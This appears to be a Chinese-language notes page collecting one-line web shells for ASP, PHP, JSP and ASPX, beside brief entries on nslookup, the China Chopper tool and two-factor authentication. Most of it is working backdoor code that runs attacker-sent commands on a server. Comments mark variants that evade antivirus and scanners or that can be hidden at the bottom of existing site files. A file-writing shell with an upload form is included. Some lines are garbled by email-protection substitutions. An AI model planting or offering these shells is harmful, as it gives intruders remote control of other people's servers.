

# nslookup 
```
是許多計算機操作系統中可用的網絡管理命令行工具，用於查詢域名系統以獲得域名或IP地址映射或其他DNS記錄。
```

# 各種一句話木馬大全
```
<%eval request("c")%>
<%execute request("c")%>
<%execute(request("c"))%>
<%ExecuteGlobal request("sb")%>
%><%Eval(Request(chr(35)))%><%
<%if request ("c")<>""then session("c")=request("c"):end if:if session("c")<>"" then execute session("c")%>
<%eval(Request.Item["c"],"unsafe");%>
'備份專用
<%eval(request("c")):response.end%>
'無防下載表,有防下載表突破專用一句話
<%execute request("c")%><%<%loop<%:%>
<%<%loop<%:%><%execute request("c")%>
<%execute request("c")<%loop<%:%>
'防殺防掃專用
<%if Request("c")<>"" ThenExecuteGlobal(Request("c"))%>
'不用"<,>"
<script language=VBScript runat=server>execute request("c")</script>
<% @Language="JavaScript" CodePage="65001"var lcx={'名字':Request.form('#'),'性別':eval,'年齡':'18','暱稱':'請叫我一聲老大'};lcx.性別((lcx.
名字)+'') %>
<script language=vbs runat=server>eval(request("c"))</script>
<script language=vbs runat=server>eval_r(request("c"))</script>
'不用雙引號
<%eval request(chr(35))%>
'可以躲過雷客圖
<%set ms = server.CreateObject("MSScriptControl.ScriptControl.1") ms.Language="VBScript" ms.AddObject"response",response ms.AddObject

"request",request ms.ExecuteStatement("ev"&"al(request(""c""))")%>
<%dy=request("dy")%><%Eval(dy)%>
'容錯程式碼
if Request("sb")<>"" then ExecuteGlobal request("sb") end if
PHP一句話

<?php eval($_POST1);?>
<?php if(isset($_POST['c'])){eval($_POST['c']);}?>
<?php system($_REQUEST1);?>
<?php ([email protected]$_GET1)[email protected]$_($_POST1)?>
<?php eval_r($_POST1)?>
<?php @eval_r($_POST1)?>//容錯程式碼
<?php assert($_POST1);?>//使用Lanker一句話客戶端的專家模式執行相關的PHP語句
<?$_POST['c']($_POST['cc']);?>
<?$_POST['c']($_POST['cc'],$_POST['cc'])?>
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用這個後,使用菜刀一句話客戶端在配置連線的時候在"配置"一欄輸入*/:<O>[email protected]_r($_POST1);</O>
<?php echo `$_GET['r']` ?>
//繞過<?限制的一句話
<script language="php">@eval_r($_POST[sb])</script>

//繞過<?php ?>限制的一句話 

<?=eval($_POST['cmd']);

JSP一句話

<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%>
提交客戶端
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>
ASPX一句話
<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script>

普通的php一句話：<?php @eval($_POST['r00ts']);?>
普通的asp一句話：<%eval(Request.Item["r00ts"],”unsafe”);%>
aspx突破一流的：
dim da
set fso=server.createobject("scripting.filesystemobject")
path=request("path")
if path<>"" then
data=request("da")
set da=fso.createtextfile(path,true)
da.write data
if err=0 then
Response.Write "yes"
else
Response.Write "no"
end if
err.clear
end if
set da=nothing
set fos=nothing
Response.Write "<form action=" method=post>"
Response.Write "<input type=text name=path>"
Response.Write "<br>"
Response.Write "當前檔案路徑:"&server.mappath(request.servervariables("script_name"))
Response.Write "<br>"
Response.Write "作業系統為:"&Request.ServerVariables("OS")
Response.Write "<br>"
Response.Write "WEB伺服器版本為:"&Request.ServerVariables("SERVER_SOFTWARE")
Response.Write "<br>"
Response.Write "<textarea name=da cols=50 rows=10 width=30></textarea>"
Response.Write "<br>"
Response.Write "<input type=submit value=save>"
Response.Write "</form>"
</Script>


ASP一句話:<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%>

PHP防殺放掃 一句話：<?php (])?>
上面這句是防殺防掃的！網上很少人用！可以插在網頁任何ASP檔案的最底部不會出錯，比如
index.asp裡面也是可以的！

因為加了判斷！加了判斷的PHP一句話，與上面的ASP一句話相同道理，也是可以插在任何PHP檔案
的最底部不會出錯！<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system($_REQUEST[1]);?>

無防下載表，有防下載表可嘗試插入以下語句突破的一句話
<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request(“class”)%><%execute request(“class”)'<% loop <%:%>


備份專用<%eval(request(“1″)):response.end%>
asp一句話<%execute(request(“1″))%>
aspx一句話:<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y(“add6bb58e139be10″);</script>

可以躲過雷客圖的一句話。
<%set ms = server.CreateObject(“MSScriptControl.ScriptControl.1″)
ms.Language=”VBScript”ms.AddObject”Response”,Responsems.AddObject”request”,
requestms.ExecuteStatement(“ev”&”al(request(“”1″”))”)%>

不用'<,>‘的asp一句話<scriptrunat=server>execute request(“1″)</script>

不用雙引號的一句話。<%eval request(chr(35))%>
 
 
轉載請註明出處：https://blog.csdn.net/l1028386804/article/details/84206143
```
# 黑客工具 中國菜刀（Chopper）
```
中國菜刀包含了「安全掃描」功能，攻擊者能夠使用爬蟲或暴力破解來攻擊目標站點

原文網址：https://kknews.cc/tech/yvorxbn.html
```
# 雙因素認證（two-factor authentication）
```
雙重認證（英語：Two-factor authentication，縮寫為2FA），又譯為雙重驗證、雙因子認證、雙因素認證、二元認證，又稱兩步驟驗證（2-Step Verification，又譯兩步驗證），是多重要素驗證中的一個特例，使用兩種不同的元素，合併在一起，來確認使用者的身分
```
